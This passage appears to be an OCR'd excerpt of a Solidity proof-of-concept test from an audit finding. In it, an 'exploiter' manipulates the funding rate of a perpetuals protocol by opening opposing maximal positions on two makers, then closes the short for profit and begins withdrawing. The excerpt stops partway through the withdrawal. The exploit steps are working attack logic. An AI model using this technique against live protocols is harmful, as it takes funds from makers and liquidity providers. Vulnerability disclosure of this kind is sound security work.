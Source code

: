 ```solidity
       //Also deposit collateral directly to SHBM to simulate some existing margin on the SHBM from previous activity
       _deposit(marketId, address(maker), 2000000*1e6);

       //Exploiter opens the maximum possible (-1000 base tokens) long on oracle maker
        vm.startPrank(exploiter);
        (int256 posBase, int256 openNotional) = clearingHouse.openPosition(
            IClearingHouse.OpenPositionParams({
                marketId: marketId,
                maker: address(oracle_maker),
                isBaseToQuote: false,
                isExactInput: false,
                amount: 1000*1e18,
                oppositeAmountBound:type(uint256).max,
                deadline: block.timestamp,
                makerData: ""
            })
        );

        //Exploiter opens maximum possible short on the HSBM maker changing their position to short 1000 (2000-1000)
        (posBase,openNotional) = clearingHouse.openPosition(
            IClearingHouse.OpenPositionParams({
                marketId: marketId,
                maker: address(maker),
                isBaseToQuote: true,
                isExactInput: true,
                amount: 2000 * 1e18,
                oppositeAmountBound:0,
                deadline: block.timestamp,
                makerData: ""
            })
        );
        console.log("Funding Fee Rate after short:");
        int256 ffeeRate = fundingFee.getCurrentFundingRate(marketId);
        console.logInt(ffeeRate);
        //OUTPUT:
        // Funding Fee Rate after short:
        //-388399804857866884

        //move to next block
        vm.warp(block.timestamp + 2 seconds);

        //Exploiter closes the short to realize gains
        int256 exploiterPosSize = vault.getPositionSize(marketId,address(exploiter));
        clearingHouse.openPosition(
            IClearingHouse.OpenPositionParams({
                marketId: marketId,
                maker: address(maker),
                isBaseToQuote: false,
                isExactInput: false,
                amount: exploiterPosSize.abs(),
                oppositeAmountBound:type(uint256).max,
                deadline: block.timestamp,
                makerData: ""
            })
        );

        //exploiter withdraws entirely
        int256 upDec = vault.getUnsettledPnl(marketId,address(exploiter));
        int256 stDec = vault.getSettledMargin(marketId,address(exploiter));
        int256 marg = stDec-upDec;
        uint256 margAbs = marg.abs();
```